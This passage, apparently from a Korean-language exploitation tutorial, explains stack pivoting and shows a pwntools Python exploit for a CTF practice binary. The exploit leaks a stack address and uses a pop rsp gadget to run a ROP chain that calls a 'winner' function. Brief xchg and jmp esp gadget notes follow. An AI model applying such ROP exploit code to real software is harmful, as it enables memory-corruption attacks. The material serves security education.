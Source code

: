 ```bash
ret                 # return
```
## RSP를 제어하는 다른 방법

### **`pop rsp`** 가젯

[**이 페이지에서**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) 이 기술을 사용하는 예제를 찾을 수 있습니다. 이 도전 과제에서는 2개의 특정 인수를 가진 함수를 호출해야 했으며, **`pop rsp` 가젯**이 있었고 **스택에서의 누수**가 있었습니다:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
### jmp esp
